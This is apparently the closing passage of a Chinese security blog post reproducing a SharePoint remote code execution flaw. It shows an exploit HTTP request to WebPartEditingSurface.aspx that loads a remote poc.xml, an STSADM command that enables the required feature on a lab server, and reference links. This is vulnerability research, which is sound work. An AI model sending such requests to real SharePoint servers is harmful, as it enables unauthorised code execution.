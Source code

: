 ```

```
GET /_layouts/15/WebPartEditingSurface.aspx?WebPartUrl=http://.../poc.xml&Url=/_catalogs/masterpage/seattle.master HTTP/1.1
```

然而报错了

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUjVpLy0G8UbLRxvUK6HXia0AkMQFpYggicgNF4mia6tU9agXPDor4Sficlw/640?wx_fmt=png)

我们需要用 SMP 打开了个 feature

```
PS C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16\TEMPLATE\FEATURES> STSADM.EXE -o activatefeat
ure -filename .\PublishingResources\Feature.xml -url http://192.168.2.107:8082/ -force
```

此时再重新发包，即可成功复现。

参考文章：  

https://paper.seebug.org/1424/  

https://paper.seebug.org/1456/

https://paper.seebug.org/1430/

https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf

https://docs.microsoft.com/en-us/dotnet/api/system.componentmodel.designerserializationvisibilityattribute?view=net-5.0

https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/dataset-datatable-dataview/security-guidance

https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)